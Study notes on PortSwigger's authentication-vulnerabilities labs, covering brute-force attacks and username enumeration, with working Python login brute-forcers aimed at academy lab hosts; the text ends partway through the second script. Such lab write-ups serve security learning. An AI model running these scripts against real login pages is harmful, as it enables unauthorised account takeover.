# Authentication Vulnerabilities — PortSwigger Web Security Academy

[🇮🇩 Read in Bahasa Indonesia](authentication-vulnerabilities-id.md)

﷽

## What is that?


This learning path explores authentication vulnerabilities, which have a critical impact on security. You'll learn about common mechanisms and vulnerabilities, and strategies for robust authentication.

## What is authentication?

Conceptually, authentication vulnerabilities are easy to understand. However, they are usually critical because of the clear relationship between authentication and security.

Authentication vulnerabilities can allow attackers to gain access to sensitive data and functionality. They also expose additional attack surface for futher exploits. For this reason, it's important to learn how to identify and exploit authentication and exploit authentication vulnerabilities, and how to bypass common protection measures.

Authentication is the process of verifying the identity of user or client. Websites are potentially exposed to anyone who is connected to the internet. This makes robust authentication mechanisms integral to effective web security.

There are three main types of authentication:

- Something you *know*, such as a password or the answer to a security question. These are sometimes called "knowledge factors"
- Something you *have*, This is a physical object such as a mobile phone or security token. These are sometimes called "knowledge factors".
- Something you *are* or do. For example, you biometrics or patterns of behaviour. These are sometimes called "inherence factors".

Authentication mechanism rely on a range of technologies to verify one or more of these factors.

## What is the difference between authentication and authorization?

Authentication is the prosess of verifying that a user is who they claim to be. Authorization involves verifying whether a user is allowed to do something.

For example, authentication determines whether someone attempting to access a website with the username `Carlos123` really is the same person who created the account.

Once `Carlos123` is authenticated, their permissions determine what they are authorized to do. For example, they may be authorized to access personal information about other users, or perform actions such as deleting another user's account.

## How do authentication vulnerabilities arise?

Most vulnerabilities in authentication mechanisms occur in one of two ways:

- The authentication mechanism are weak because they fail to adequately protect agains brute-force attacks.
- Logic flaws or poor coding in the implementation allow the authentication mechanism to be bypassed entirely by an attacker. This is sometimes called "broken authentication".

In many areas of web development, logic flaws cause the website to behave unexpectedly, which may or may not be a security issue. However, as authentication is so crital to security, it's very likely that flawed authentication logic exposes the website to security issues.

## What is the impact of vulnerable authentication?

The impact of authentication vulnerabilities can be severe. If an attacker bypasses authentication or brute-forces their way into another user's account, they have access to all the data and functionality that the compromised account has. If they are able to compromise a high-privileged account, such as a system administrator, they could take full control over the entire application and potentially gain access to internal infrastructure.

## What is the impact of vulnerable authentication? - Continued

Even compromising a low-privileged account might still grant an attacker access to data that they otherwise shouldn't have, such as commercially sensitive business information. Even if the account does not have to access additional pages, which provide a futher attack surface. Often, high-severity attacks are not possible from publicly accessible pages, but they may be possible form an internal page.

## Vulnerabilities in password-based login

For websites that adopt a password-based login process, users either register for an account themselves or they are assigned an account by an administrator. This account is associated with a unique username and a secret password, which the user enters in a login form to authenticate themselves.

In this scenarion, the fact that they know the secret password is taken as sufficient proof of the user's identity. This means that the security of the website is compromised if an attacker is able to either obtain or guess the login credentials of another user.

This can be achieved in a number of ways. The following sections show how an attacker can use brute-force attacks, and some of the flaws in brute-force protection. You'll also learn about the vulnerabilities in HTTP basic authentication.

### Brute-force attacks

A brute-force attack is when an attacker uses a system of trial and error to guess valid user credentials. These attacks are typically automated using wordlists of usernames and passwords. Automating this process, especially using dedicated tools, potentially enables an attacker to make vast numbers of login attempts at high speed.

Brute-forcing is not always just a case of making completely random guesses at usernames and passwords. By also using basic logic or publicy available knowlege, attackers can fine-tune brute-force attacks to make much more educated guesses. This considerably increases the efficiency of such attacks. Websites that rely on password-based login as their sole method of authenticating users can be highly vulnerable if they do not implement sufficient brute-force protection.

### Brute-forcing usernames

Usernames are especially easy to guess if they conform to a recognizable pattern, such as an email address. For example, it is very common to see business logins in the format `firstname.lastname@somecompany.com`. However, even if there is no obvious pattern, sometimes even high-privileged accounts are created using predictable usernames, such as `admin` or `administrator`.

During auditing, check whether the website discloses potential usernames publicly. For example, are you able to access user profiles without logging in? Even if the actual content of the profiles is hidden, the name used in the profile is sometimes the same as the login username. You should also check HTTP responses to see if any email addresses are disclosed. Occasionally, responses contain email addresses of high-privileged users, such as administrator or IT support.

### Brute-forcing passwords

Passwords can similary be brute-forced, with the difficulty varying based on the strengh of the password. Many websites adopt some form of password policy, which forces users to create-high-entropy passwords that are, theoretically at least, harder to crack using brute-force alone. This typically involves enforcing passwords with:

- A minimum number of characters
- A mixture of lower and uppercase letters
- At least one special character

### Brute-forcing passwords - Contiuned

However, while high-entropy passwords are difficult for computers alone to crack, we can use a basic knowledge of human behaviour to exploit vulnerabilities that users unwittingly introduce to this system. Rather than creating a strong password with a random combination of characters, users often take a password that they can remember and try to crowbar it into fitting the password policy. For example, if `mypassword` is not allowed, users may try something like `Mypassword1!` or `Myp4$$word` instead.

In cases where the policy requires users to change their passwords on a regular basis, it is also common for users to just make minor, predictable changes to their preferred password. For example, `Mypassword1!` becomes `Mypassword1?` or `Mypassword2!`.

This knowledge of likely credentials and predictable patterns means that brute-force attacks can often be much more sophisticated, and therefore effective, that simply iterating though every possible combination of characters.

### Username enumeration

Username enumeration is when attacker is able to observe changes in the website's behaviour in order to identify whether a given username is valid.

Username enumeration typically occurs either on the login page, for example, when you enter a valid username but an incorrect password, or registration forms when you enter a username that is already taken. This greatly reduces the time and effort required to brute-force a login because the attacker is able to quickly generate a shortlist of valid usernames.

### Username enumeration - Continued

While attempting to brute-force a login page, you should pay particular attention to any differences in:

- *Status codes*: During a brute-force attack, the returned HTTP status code is likely to be the same for the vast majority of guesses because most of them will be wrong. If a guess returns a different status code, this is a strong indication that the username was correct. It is best practice for websites to always return the same status code regardless of the outcome, but this practice is not always followed.
- *Error messages*: Sometimes the returned error message is different depending on whether both the username AND password are incorrect or only the password was incorrect. It is best practice for websites to use identical, generic messages in both cases, but small typing errors sometimes creep in. Just one character out of place makes the two messages distict, even in cases where the character is not visible on the rendered page.
- *Response times*: If most of the requests were handled with a similar response time, any that deviate from this suggest that something different was happening behind the scenes. This is another indication that the guessed username might be correct. For example, a website might only check whether the password is correct if the username is valid. This extra step might cause a slight increase in the response time. This may be subtle, but an attacker can make this delay more obvious by entering an excessively long password that the website takes noticebly longer to handle.

##### Lab: Username enumeration via different responses

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

<details>
<summary>Lab details, screenshots & walkthrough 0.1</summary>

**Screenshots:**











##### Tutorial

1. Send a login request with an invalid username and note the baseline response (status, length, error text).
2. Phase 1: try each candidate username with one fixed password. A valid username returns a response that differs from the invalid-user baseline (e.g. `Invalid username or password` without the trailing dot, or a different length).
3. Phase 2: brute-force the found username's password. Success = HTTP 302 redirect to `/my-account`.
4. Log in with the cracked credentials and open **My account** to solve the lab.

**Script:**

```python
#!/usr/bin/env python3
"""
Two-phase login brute-forcer for PortSwigger Authentication labs.
Detects by RESPONSE LENGTH + status + optional regex (default: length).

Phase 1: try each username with one fixed password; valid username = response
         length differs from the invalid-user baseline (or matches --valid-regex).
Phase 2: brute force the password of the valid username; success = length/status
         differs from failed baseline (or matches --success-regex).

Usage:
  python3 bruteforce_login.py --url https://<id>.web-security-academy.net/login \
    --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
"""
from __future__ import annotations
import argparse, re, sys, time
from pathlib import Path
import requests

def load(path):
    out, seen = [], set()
    for line in Path(path).read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s); out.append(s)
    return out

def norm(t):
    return re.sub(r'\s+', ' ', t or '').lower()

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument('--url', required=True)
    ap.add_argument('--usernames', required=True)
    ap.add_argument('--passwords', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (bruteforce-tool)')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--phase', choices=['usernames','passwords','both'], default='both')
    ap.add_argument('--fixed-password', default='test')
    ap.add_argument('--username', default='')
    ap.add_argument('--fail-regex', default='', help='regex marking FAILURE')
    ap.add_argument('--valid-regex', default='', help='phase1: regex marking VALID username')
    ap.add_argument('--success-regex', default='', help='phase2: regex marking SUCCESS')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=15.0)
    ap.add_argument('--all', action='store_true')
    ap.add_argument('--proxy', default='')
    args = ap.parse_args()

    users = load(args.usernames)
    pwds = load(args.passwords)
    s = requests.Session()
    s.headers.update({'User-Agent': args.user_agent})
    if args.cookie: s.headers['Cookie'] = args.cookie
    proxies = {'http':args.proxy,'https':args.proxy} if args.proxy else None
    fail_re = re.compile(args.fail_regex, re.I) if args.fail_regex else None
    valid_re = re.compile(args.valid_regex, re.I) if args.valid_regex else None
    succ_re = re.compile(args.success_regex, re.I) if args.success_regex else None

    def post(u,p):
        return s.post(args.url, data={args.user_field:u, args.pass_field:p},
                      timeout=args.timeout, allow_redirects=False, proxies=proxies)

    # baseline for phase 1: one known-invalid username
    baseline_len = None
    try:
        r0 = post('__invalid_user__', args.fixed_password)
        baseline_len = len(r0.text or '')
        print(f'[*] baseline invalid-user len={baseline_len} status={r0.status_code}', file=sys.stderr)
    except Exception as e:
        print(f'[!] baseline error: {e}', file=sys.stderr)

    # phase 1
    valid_users = []
    if args.phase in ('usernames','both') and not args.username:
        print(f'[*] PHASE 1: {len(users)} usernames (fixed pw="{args.fixed_password}")', file=sys.stderr)
        for i,u in enumerate(users,1):
            try: r = post(u, args.fixed_password)
            except Exception as e: time.sleep(1); continue
            body = r.text or ''
            if valid_re:
                ok = bool(valid_re.search(norm(body)))
            else:
                ok = (baseline_len is not None and len(body) != baseline_len) or r.status_code != r0.status_code
            if ok:
                print(f'[+] VALID USERNAME: {u} len={len(body)} status={r.status_code}', file=sys.stderr)
                valid_users.append(u)
                if not args.all: break
            elif i % 25 == 0:
                print(f'[*] {i}/{len(users)}', file=sys.stderr)
            if args.delay: time.sleep(args.delay)

    if args.phase == 'usernames':
        print('VALID: ' + (', '.join(valid_users) if valid_users else 'none'))
        return 0 if valid_users else 1

    targets = [args.username] if args.username else valid_users
    if not targets:
        print('[-] no valid username; skip phase 2', file=sys.stderr)
        return 1

    # baseline for phase 2: valid user + wrong password
    pwd_baseline = None
    try:
        rp = post(targets[0], '__wrong_pwd__')
        pwd_baseline = (len(rp.text or ''), rp.status_code)
        print(f'[*] phase2 baseline wrong-pw len={pwd_baseline[0]} status={pwd_baseline[1]}', file=sys.stderr)
    except Exception: pass

    print(f'[*] PHASE 2: {len(pwds)} passwords for {targets}', file=sys.stderr)
    hits = []
    for u in targets:
        for i,p in enumerate(pwds,1):
            try: r = post(u,p)
            except Exception: time.sleep(1); continue
            body = r.text or ''
            if succ_re:
                ok = bool(succ_re.search(norm(body)))
            elif fail_re:
                ok = not fail_re.search(norm(body))
            else:
                ok = (pwd_baseline is None or
                      (len(body), r.status_code) != pwd_baseline)
            if ok:
                loc = r.headers.get('Location','')
                print(f'[+] HIT {u}:{p} len={len(body)} status={r.status_code} {loc}', file=sys.stderr)
                hits.append((u,p,r.status_code,loc))
                if not args.all:
                    print(f'\nFOUND {u}:{p}')
                    return 0
            elif i % 25 == 0:
                print(f'[*] {u}: {i}/{len(pwds)}', file=sys.stderr)
            if args.delay: time.sleep(args.delay)
    print('HITS: ' + (', '.join(f'{u}:{p}' for u,p,_,_ in hits) if hits else 'none'))
    return 0 if hits else 1

if __name__ == '__main__':
    sys.exit(main())
```

**How to run:**

```bash
python3 Username-enumeration-via-different-responses.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>1. Username enumeration via different responses — Michael Sommer</summary>

Platform: YouTube
Video: https://www.youtube.com/watch?v=-bzZ9Ky8GmU
Purpose: This video shows the lab solution of "Username enumeration via different responses" from Web Security Academy (Portswigger)

</details>

<details>
<summary>2. Authentication Vulnerabilities - Lab #1 Username enumeration via different responses — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=DEUCRYGt3TY
Purpose: In this video, we cover Lab #1 in the Authentication module of the Web Security Academy. This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

</details>

</details>

##### Lab: Username enumeration via subtly different responses

This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

<details>
<summary>Lab details, screenshots & walkthrough 0.2</summary>

**Screenshots:**









To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

##### Tutorial

1. Baseline: an invalid username returns `Invalid username or password.` (WITH a trailing dot).
2. Phase 1: a valid username returns `Invalid username or password` (NO trailing dot) — the subtle difference.
3. Phase 2: brute-force the password; success = HTTP 301/302 redirect.
4. Log in as the victim and open **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Username enumeration via subtly different responses (PortSwigger lab solver).

Pattern (the "subtle difference"):
  invalid username -> body contains "Invalid username or password."  (WITH trailing dot)
  valid username   -> body contains "Invalid username or password"   (NO trailing dot)

No hardcoded usernames or passwords: wordlists come from files
(default usernames.txt / passwords.txt).

Logic:
  PHASE 1 - username
    baseline = 1 request with a random invalid username.
    valid username <=> response does NOT match --invalid-regex.
                     (default regex: "invalid username or password\\.")

  PHASE 2 - password
    success <=> HTTP 301/302/303/307/308.

Usage:
  python3 Username-enumeration-via-subtly-different-responses.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --usernames usernames.txt --passwords passwords.txt

  ... --verbose
  ... --csv attempts.csv
  ... --phase usernames
  ... --phase passwords --username <found-user>
  ... --invalid-regex "invalid username or password\\."
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def norm(t: str) -> str:
    return re.sub(r'\s+', ' ', t or '').strip().lower()


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Username enumeration via subtly different responses.')
    ap.add_argument('--url', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--usernames', default='usernames.txt')
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--static-password', default='test')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (UsernameEnumeration)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--all', action='store_true')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    ap.add_argument('--invalid-regex', default=r'invalid username or password\.',
                    help='regex marking an INVALID username (trailing dot matters). '
                         'A response NOT matching this = valid username.')
    ap.add_argument('--phase', choices=['usernames', 'passwords', 'both'], default='both')
    ap.add_argument('--username', default='')
    args = ap.parse_args()

    usernames = load_list(Path(args.usernames))
    passwords = load_list(Path(args.passwords))
    if not usernames or not passwords:
        print('error: username/password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.9',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure
    invalid_re = re.compile(args.invalid_regex, re.I)

    rows: list[tuple[str, str, str, int, int, str, str]] = []

    def attempt(phase: str, user: str, pwd: str):
        try:
            r = s.post(args.url,
                       data={args.user_field: user, args.pass_field: pwd},
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] error {phase} {user}:{pwd} -> {e}', file=sys.stderr)
            time.sleep(1)
            return None
        body = r.text or ''
        loc = r.headers.get('Location', '')
        m = bool(invalid_re.search(norm(body)))
        rows.append((phase, user, pwd, r.status_code, len(body), loc,
                     'invalid' if m else 'no-dot'))
        if args.verbose:
            print(f'    {phase:8s} {user}:{pwd:<12s} status={r.status_code} '
                  f'len={len(body)} invalid_match={m} {loc}', file=sys.stderr)
        if args.delay:
            time.sleep(args.delay)
        return r

    # ---------- baseline: random invalid username ----------
    r0 = attempt('baseline', 'zz-not-a-real-user-zz', args.static_password)
    if r0 is None:
        print('[-] baseline failed (check URL/connectivity)', file=sys.stderr)
        return 2
    b = norm(r0.text or '')
    print(f'[*] baseline invalid -> len={len(r0.text or "")} status={r0.status_code} '
          f'invalid_match={bool(invalid_re.search(b))}', file=sys.stderr)
    if not invalid_re.search(b):
        print('[!] baseline does not match --invalid-regex; check the lab error text.',
              file=sys.stderr)

    # ---------- PHASE 1: usernames ----------
    valid: list[str] = []
    if args.phase in ('usernames', 'both') and not args.username:
        print(f'[*] PHASE 1: {len(usernames)} username (static pw="{args.static_password}")',
              file=sys.stderr)
        for i, u in enumerate(usernames, 1):
            r = attempt('user', u, args.static_password)
            if r is None:
                continue
            if not invalid_re.search(norm(r.text or '')):
                print(f'[+] VALID USERNAME: {u} (len={len(r.text or "")} '
                      f'status={r.status_code})', file=sys.stderr)
                valid.append(u)
                if not args.all:
                    break
            elif i % 25 == 0:
